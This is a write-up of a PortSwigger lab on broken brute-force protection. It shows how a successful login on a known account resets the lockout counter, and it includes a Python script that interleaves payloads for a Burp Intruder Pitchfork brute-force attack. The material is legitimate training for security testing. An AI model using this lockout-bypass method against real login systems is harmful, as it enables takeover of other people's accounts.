




# Lab 06 — Broken Brute-Force Protection, IP Block

## Lab Information

- **Platform:** PortSwigger Web Security Academy
- **Category:** Authentication
- **Lab:** Broken brute-force protection, IP block
- **Difficulty:** Practitioner
- **Vulnerability:** Flawed brute-force protection logic
- **Status:** Solved

---

## Objective

Brute-force the victim's password, log in to the victim's account, and access their account page.

Provided credentials:

```text
Username: wiener
Password: peter
```

Victim:

```text
Username: carlos
```

---

## Initial Reconnaissance

I first logged in using the provided valid credentials:

```text
wiener:peter
```

I captured the login request in Burp Suite and sent it to Repeater.

I then changed the username to:

```text
carlos
```

and used a deliberately invalid password.

After making several consecutive failed login attempts, the application returned a brute-force protection message indicating that further attempts were temporarily blocked.



This established that the application had a brute-force protection mechanism.

---

## Investigating the Protection

My initial hypothesis was that the application was blocking the source IP after too many failed attempts.

I tested this by modifying the request with an `X-Forwarded-For` header.

However, changing the apparent IP did not bypass the protection.

This suggested that the protection was not simply based on the source IP.

I then tested whether the protection was associated with the username/account instead.

Further testing revealed an important behavior:

```text
carlos + incorrect password
carlos + incorrect password
wiener + correct password
```

After successfully logging in as `wiener`, the failed-login counter was reset.



The same behavior could then be reproduced for `carlos`.

---

## Identifying the Logic Flaw

I confirmed the behavior multiple times.

The application effectively behaved like:

```text
Carlos failed attempt
        ↓
Carlos failed attempt
        ↓
Wiener successful login
        ↓
Failed-attempt counter reset
        ↓
Carlos can attempt again
```

This meant the successful authentication of one user could reset the failed-login counter affecting another user.

The protection therefore contained a **logic flaw**.

Instead of requiring the failed attempts to remain below the threshold for the duration of the attack, the counter could be repeatedly reset by successfully authenticating as the known `wiener` account.

---

## Optimizing the Brute-Force Attack

The protection triggered after three failed attempts.

Therefore, instead of resetting after every Carlos password attempt, I used the more efficient pattern:

```text
Carlos + password 1
Carlos + password 2
Wiener + peter
```

The successful `wiener:peter` login reset the failed-attempt counter.

The process could then continue:

```text
Carlos + password 3
Carlos + password 4
Wiener + peter
```

and so on.

This allowed two candidate Carlos passwords to be tested for every successful reset.

---

## Python Script

I used Python to transform the supplied candidate password list into two payload lists suitable for a Burp Intruder Pitchfork attack.

The script generated the required sequence:

```text
Carlos + password 1
Carlos + password 2
Wiener + peter
Carlos + password 3
Carlos + password 4
Wiener + peter
...
```

### Script

```python
a = 'carlos'
b = 'wiener'
y = 'peter'


with open('pass.txt', 'r') as f:
    x = [line.strip() for line in f if line.strip()]


usernames = []
passwords = []


count = 0
for pwd in x:
    usernames.append(a)
    passwords.append(pwd)
    count += 1
    if count % 2 == 0:
        usernames.append(b)
        passwords.append(y)


with open('usernames.txt', 'w') as f:
    f.write('\n'.join(usernames) + '\n')


with open('passwords.txt', 'w') as f:
    f.write('\n'.join(passwords) + '\n')


print(f"done! total entries: {len(usernames)}")
```

The script produced:

```text
usernames.txt
passwords.txt
```

These were loaded into Burp Intruder as the two synchronized payload lists.

---

## Burp Intruder Configuration

I used a **Pitchfork** attack because two payload lists needed to be synchronized.

### Payload Set 1 — Username

The generated username list followed this pattern:

```text
carlos
carlos
wiener
carlos
carlos
wiener
carlos
carlos
wiener
...
```

### Payload Set 2 — Password

The generated password list followed this pattern:

```text
candidate-password-1
candidate-password-2
peter
candidate-password-3
candidate-password-4
peter
...
```

Pitchfork paired the values row-by-row:

```text
Request 1 → carlos + password1
Request 2 → carlos + password2
Request 3 → wiener + peter
Request 4 → carlos + password3
Request 5 → carlos + password4
Request 6 → wiener + peter
...
```

No `X-Forwarded-For` manipulation was required for the final attack because the vulnerability was in the failed-attempt counter logic rather than simple IP-based blocking.

---

## Grep - Match

To identify the successful Carlos authentication, I configured Burp Intruder's **Grep - Match** feature using:

```text
/my-account?id=carlos
```

This was chosen because a successful Carlos login redirected to the account page.

The successful response was:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
```

This allowed the successful password attempt to stand out in the Intruder results.

---

## Password Discovery

The Intruder attack identified a match for:

```text
Username: carlos
Password: monkey
```

The successful response contained the configured Grep-Match string:

```text
/my-account?id=carlos
```



---

## Verification

I manually logged in using:

```text
Username: carlos
Password: monkey
```

The login succeeded and I was able to access Carlos's account page.

The PortSwigger lab was successfully completed.



---

## Attack Flow

```text
Login with wiener:peter
        ↓
Capture /login request
        ↓
Test Carlos with incorrect passwords
        ↓
Trigger brute-force protection
        ↓
Test X-Forwarded-For
        ↓
Determine protection is not simply IP-based
        ↓
Test whether successful login affects counter
        ↓
wiener:peter resets failed-attempt counter
        ↓
Identify logic flaw
        ↓
Build synchronized Pitchfork payloads
        ↓
2 Carlos password attempts
        ↓
wiener:peter reset
        ↓
2 more Carlos password attempts
        ↓
Repeat
        ↓
Grep-Match successful Carlos response
        ↓
Identify password: monkey
        ↓
Manual login verification
        ↓
Lab solved
```

---

## Vulnerability

The application contains a flaw in its brute-force protection logic.

A successful login by one user resets the failed-login counter used by the protection mechanism.

This reset is not properly isolated between users.

An attacker who knows valid credentials for another account can therefore repeatedly reset the failed-attempt counter while brute-forcing a victim's password.

---

## Burp Suite Techniques Used

### Repeater

Used to:

* Investigate the login flow.
* Trigger and observe brute-force protection.
* Test `X-Forwarded-For`.
* Determine whether the protection was IP-based.
* Test the relationship between successful logins and failed-attempt counters.
* Confirm that `wiener:peter` reset the counter.

### Intruder

Used to automate the password attack after identifying the protection logic flaw.

### Pitchfork

Used because the username and password payloads needed to change synchronously.

The payload streams were deliberately constructed to alternate between:

```text
Carlos password attempts
```

and:

```text
Wiener successful login
```

### Grep - Match

Used to identify the successful Carlos login by matching:

```text
/my-account?id=carlos
```

---

## Methodology Lessons

### Don't assume the protection mechanism

The initial assumption was that the IP itself was being blocked.

Testing `X-Forwarded-For` showed that this was not sufficient to explain the behavior.

The protection mechanism was investigated experimentally rather than assumed.

### Test interactions between accounts

The most important discovery came from asking:

> What happens to Carlos's failed-attempt counter when another user successfully authenticates?

This exposed the cross-account reset flaw.

### Optimize the attack around the protection

Once the threshold was identified as three failed attempts, using:

```text
Carlos
Carlos
Wiener
```

was more efficient than:

```text
Carlos
Wiener
Carlos
Wiener
...
```

This reduced the number of reset requests required.

### Use the application's success behavior as the detection signal

Instead of relying only on status code or response length, the attack used the successful redirect:

```text
/my-account?id=carlos
```

as the definitive Intruder match.

### Always verify the final credentials

The Intruder result was treated as evidence rather than final proof.

The discovered credentials were manually tested:

```text
carlos:monkey
```

and successful account access confirmed the vulnerability.

---

## Key Takeaways

1. Brute-force protections can contain logic flaws even when a lockout mechanism exists.
2. Protection mechanisms should be tested rather than assumed to be IP-based.
3. Authentication state and failed-attempt counters should be properly isolated between users.
4. A successful login should not incorrectly reset another user's brute-force counter.
5. Cross-account behavior can reveal authentication logic flaws.
6. Burp Intruder's Pitchfork attack can synchronize multiple payload streams.
7. Payload lists can be programmatically generated when a complex request sequence is required.
8. Grep - Match can make successful authentication responses easy to identify in large Intruder attacks.
9. Efficient attack design matters when rate limits or lockouts are present.
10. Automated results should always be manually verified.

---

## Credentials Discovered

```text
Username: carlos
Password: monkey
```

---

## Final Result

Successfully exploited the flawed brute-force protection logic, identified Carlos's password as `monkey`, logged into Carlos's account, and completed the PortSwigger lab.
